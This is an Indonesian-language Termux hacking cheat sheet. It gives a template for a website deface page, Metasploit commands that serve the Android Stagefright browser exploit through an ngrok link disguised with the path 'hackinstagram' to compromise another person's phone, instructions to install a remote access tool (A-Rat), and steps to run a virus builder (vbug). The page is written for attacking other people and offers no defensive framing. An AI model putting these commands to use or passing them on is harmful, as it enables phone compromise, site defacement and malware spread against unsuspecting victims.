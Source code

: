 ~Selanjutnya, cara pembuatannya:
- Judul title:(Nama Team/Bebas)
- Hacked by:(Nama Samaran Kalian)
- Link gambar (tengah):(link nya bisa ngambil di google)
- Link gambar (background):(link nya ngambil di google)
- Pesan:(terserah kalian mau nulis apa aja bebas)
- Warna Text: (terserah warna kalian,jangan lupa pake bhs.inggris)

~Setelah ikuti tutorial diatas,sekarang kita tinggal meng save/menyimpan data tersebut:$ls 
$mv -f script.html /sdcard


**Mengetahui merek hp orang lain dengan link**

Pastikan kalian udah install ngrok dan metasploit

*Buka ngrok 
$ ./ngrok http 6969 (bebas 4 angka)
*Buka metasploit/halaman baru*
$ msfconsole

$ use exploit/android/browser/stagefright_mp4_tx3g_64bit.rb

$ set lhost 127.0.0.1

$ set srvhost 127.0.0.1

$ set lport 6969

$ set srvport 6969

$ set uripath hackinstagram

$ run

Kembali ke ngrok dan salin linknya dan tambah uripathnya
Contoh https://blablabla.ngrok.io/hackinstagram


   **Install A-Rat**
$ apt update && apt upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/Xi4u7/A-Rat.git
$ cd A-Rat
$ python2 A-Rat.py

   **Buat Virus Via Termux**
$ apt update
$ apt upgrade
$ pkg install python2
$ cd /storage/emulated/0
$ ls
$ cp -f vbug.zip $HOME
$ cd $HOME
$ ls
$ unzip vbug.zip
$ ls
$ cd vbug
$ ls
$ chmod +x vbug.py
$ python2 vbug.py
